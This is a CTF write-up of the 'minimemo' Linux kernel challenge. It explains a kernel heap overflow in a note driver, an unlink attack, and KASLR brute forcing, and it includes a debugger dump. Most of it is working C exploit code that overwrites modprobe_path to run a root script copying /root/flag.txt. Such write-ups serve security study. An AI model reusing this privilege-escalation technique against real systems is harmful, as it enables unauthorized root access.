 # minimemo
I solved kernel exploit challenge for the first time.  
I'm so glad, thanks to author @ptrYudai.  
He always give us good tasks.  

## TLDR
### Vulnerability
* buffer overflow on kernel heap
### How to attack
* unlink attack
* overwrite modprobe\_path

## Challenge
### Description
Linux kernel security function
* KASLR  : Enable
* KPTI   : Disable
* SMEP   : Disable
* SMAP   : Disable

Linux 5.14.3
### Exploit 
I solved this challenges with brute force attack(3bit + a).  
So my solution was not smart.  

We can overwrite "fd" member of struct notelist\_t, but with value of "id" member.  
When the most lowest bytes of "id" is proper, we cana link user land data to linked list, because SMAP is disable.  
If it can be, we can get the address of the kernel heap address and the kernel module addresss, and do AAW via user land data.  
But we cannot get the kernel base address.  

See around the kernel module address, there are some addresses which based on the kernel base address.  
* memory dump around global variable top(kernel module address = 0xffffffffc006b000)
```
wndbg> x/20gx 0xffffffffc006b000+0x2100
0xffffffffc006d100:     0x0000000000000000      0x0000000000000000
0xffffffffc006d110:     0x0000000000000000      0xffffffffc006d100  <- top.fd
0xffffffffc006d120:     0xffffffffc006d100      0x0000000000000000  <--- top.bk
0xffffffffc006d130:     0x0000000000000000      0x0000000000000000
0xffffffffc006d140:     0x0000000000000000      0xffffffffb72a9e80  <- kernel base address + ????
0xffffffffc006d150:     0xffffffffb72a9e80      0x6f6d656d696e696d  <--- kernel base address + ????
0xffffffffc006d160:     0x0000000000000000      0x0000000000000000
0xffffffffc006d170:     0x0000000000000000      0x0000000000000000
0xffffffffc006d180:     0x0000000000000000      0x0000000000000000
0xffffffffc006d190:     0xffff922e81339600      0xffff922e811191e0
```

I overwrote the lowest 3 bytes of these address with offset of modprobe\_path. To success this attack, we need to conqure 3bit brute force(It is caused by KASLR).  

A part of exploit
```c
int dev_fd;

long create() 
{
	long id;
	request_t req;
	id = ioctl(dev_fd, CMD_NEW, &req);
	if(id < 0)
		err_exit("[!] ERROR CMD_NEW\n");
	printf("[+] CMD_NEW: id = 0x%lx\n", id);
	return id;
}

void edit(request_t* req)
{
	long ret;
	ret = ioctl(dev_fd, CMD_EDIT, req);
	if(ret < 0)
		err_exit("[!] ERROR CMD_EDIT\n");
	printf("[-] CMD_EDIT DONE\n");
	return;
}

void delete(int id)
{
	long ret;
	request_t req;
	req.id = id;

	ret = ioctl(dev_fd, CMD_DEL, &req);
	if(ret < 0)
		err_exit("[!] ERROR CMD_DEL\n");
	printf("[-] CMD_DEL DONE\n");
	return;
}

int idlist[0x100] = {0};
int off_list = 0;
int top = 0;

long addr_module;
long addr_heap;
long addr_kernel;
long kernel_base;

int main(){
	request_t req;
	notelist_t notelist;
	notelist_t notelist_sub;
	int id, i ;
	int offset = -1;
	int padding;
	dev_fd = open("/dev/memo", O_RDWR);
	if(dev_fd < 0)
		err_exit("open error");

	system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/badbin");
	system("echo -ne '#!/bin/sh\nchmod 777 /root/flag.txt && cp /root/flag.txt /tmp/flag' > /tmp/km2.sh");
	system("chmod +x /tmp/km2.sh /tmp/badbin");
	puts("[+] START");
	
	memset(&notelist, 0, sizeof(notelist_t));
	memset(req.data, 0x41, 20);
	req.size = 20;

	for(i = 0; i < 5; i++){
		id = create();
		req.id = id;
		edit(&req);
		idlist[off_list] = id;
		off_list++;
	}
	
	while(1) {
		id = create();
		req.id = id;
		edit(&req);
		idlist[off_list] = id;
		off_list++;
		//id = (id & 0x3f);
		//if(id >= 0x8 && id <= 0x14) {
		id = (id & 0xff);
		if(id >= 0xc8 && id <= 0xd4) {
			offset = off_list-1;
			break;
		}
	}

	for(i = 0;i < 5; i++){
		id = create();
		req.id = id;
		edit(&req);
		idlist[off_list] = id;
		off_list++;
	}

	req.id = idlist[offset];
	req.size = 21;
	edit(&req);

	req.id = 0x41414141;
	padding = (0x14-(idlist[offset] & 0x3f));
	req.size = 8+padding;
	memset(req.data, 0x41, padding);
	*((long*)&req.data[padding]) = &notelist;
	edit(&req);

	
	while(notelist.bk == 0){
		delete(idlist[--off_list]);	
	}
	addr_module = notelist.bk;	
	printf("[+] top = %lx\n", (long)notelist.bk);
	id = create();
	addr_heap = notelist.bk;
	printf("[+] heap = %lx\n", (long)notelist.bk);
	
	notelist.note.id = 0x42424242;
	notelist.fd = addr_module+0x44;
	
	req.size = 3;
	req.id = 0;
	*((long*)req.data) = 0x8367c0-4; // 3bit brute force
	
	edit(&req);
	
	notelist.fd = addr_module+0x2c;
	req.size = 4;
	req.id = 0;
	*((long*)req.data) = 0x43434343;
	
	edit(&req);
	  
	notelist.fd = addr_module+0x30;
	req.size = 12;
	req.id = 0;
	strcpy(req.data, "/tmp/km2.sh\x00");
	edit(&req);
	
	puts("[+] END");
	system("/tmp/badbin");
	
	return 0;
}
```

My exploit code is [k\_exp.py](https://github.com/kam1tsur3/2021_CTF/blob/master/asis/pwn/minimemo/exploit/k_exp.c).

## Reference

twitter: @kam1tsur3
